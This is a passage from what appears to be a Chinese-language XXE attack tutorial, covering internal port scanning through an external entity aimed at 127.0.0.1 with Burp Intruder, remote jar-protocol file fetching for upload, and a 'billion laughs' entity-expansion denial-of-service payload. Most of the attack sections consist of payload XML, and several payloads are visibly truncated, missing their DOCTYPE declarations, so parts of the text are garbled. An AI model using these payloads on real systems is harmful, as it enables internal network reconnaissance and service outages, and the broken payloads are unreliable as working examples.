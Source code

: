 ```
        continue

```

### 1.6、内网端口扫描

使用以下payload进行端口扫描，通过响应时间来判断端口是否开放，利用Burp Suite等工具设置循环遍历端口，自动化进行端口探测，将扫描出来的资产进行相应端口的漏洞利用。

```
&lt;?xml version="1.0" encoding="utf-8"?&gt; 

&lt;!ENTITY xxe SYSTEM "http://127.0.0.1:80" &gt;]&gt;
&lt;user&gt;
&lt;username&gt;&amp;xxe;&lt;/username&gt;
&lt;password&gt;1&lt;/password&gt;
&lt;/user&gt;

可使用burpsuite的intruder模块进行遍历

```

### 1.7、文件上传

我们前面说过Java环境下支持jar协议，jar 能从远程获取 jar 文件，然后将其中的内容进行解压

jar 协议处理文件的过程：

(1) 下载 jar/zip 文件到临时文件中<br/> (2) 提取出我们指定的文件<br/> (3) 删除临时文件

```
&lt;?xml version="1.0" encoding="utf-8"?&gt; 

]&gt;

&lt;user&gt;&lt;username&gt;&amp;remote;&lt;/username&gt;&lt;password&gt;1&lt;/password&gt;&lt;/user&gt;

```

200上传成功

如何找到上传的地址呢，使用一个不存在的文件就能报错显示路径了

具体利用方式还未想到。

### 1.8、DOS攻击

```
&lt;?xml version="1.0"?&gt;

 &lt;!ELEMENT lolz (#PCDATA)&gt;
 &lt;!ENTITY lol1 "&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;&amp;lol;"&gt;
 &lt;!ENTITY lol2 "&amp;lol1;&amp;lol1;&amp;lol1;&amp;lol1;&amp;lol1;&amp;lol1;&amp;lol1;&amp;lol1;&amp;lol1;&amp;lol1;"&gt;
 &lt;!ENTITY lol3 "&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;&amp;lol2;"&gt;
 &lt;!ENTITY lol4 "&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;&amp;lol3;"&gt;
 &lt;!ENTITY lol5 "&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;&amp;lol4;"&gt;
 &lt;!ENTITY lol6 "&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;&amp;lol5;"&gt;
 &lt;!ENTITY lol7 "&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;&amp;lol6;"&gt;
 &lt;!ENTITY lol8 "&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;&amp;lol7;"&gt;
```